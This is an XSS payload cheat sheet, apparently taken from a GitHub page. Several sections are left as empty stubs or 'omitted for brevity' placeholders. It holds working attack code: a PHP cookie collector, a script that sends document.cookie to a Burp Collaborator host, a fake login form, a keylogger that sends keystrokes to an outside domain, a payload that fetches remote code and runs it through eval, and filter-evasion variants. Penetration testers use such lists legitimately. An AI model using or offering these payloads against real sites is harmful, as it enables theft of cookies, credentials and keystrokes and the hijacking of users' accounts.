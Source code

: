 
# XSS Payloads Collection

## Cookie Theft via PHP
```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

## CORS Data Exfiltration
```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body: document.cookie
  });
</script>
```

## UI Redressing (Fake Login Form)
```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>";
</script>
```

## JavaScript Keylogger
```html
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

## Debugging Payload
```html
<script>debugger;</script>
```

## Better Context Awareness Payload
```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
<script>console.log("Test XSS from the search bar of page XYZ\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

## Common Payloads
```html
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script>
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
```

## Img Payloads
... (Omitted for brevity, but includes all <img> payloads from source)

## SVG Payloads
... (Includes SVG payloads with `<svg>`, `<desc>`, `<foreignObject>`, `<title>`, `<script>` etc.)

## HTML5 Tag Payloads
... (Includes onload, autofocus, touch events, video/audio/meter elements)

## Remote JavaScript Load
```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
```

## Hidden Input Events
...

## Uppercase Output
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

## DOM Based XSS
...

## JavaScript URI Wrappers
...

## Data, VBScript, XML and File Based
...

## SVG Injection via External/Fragment
...

## Markdown XSS
...

## CSS Injection
...

## postMessage Exploits
...

## Blind XSS Probes
...

## References and Tools
- XSSHunter (Deprecated)
- sleepy-puppy, bXSS, ezXSS

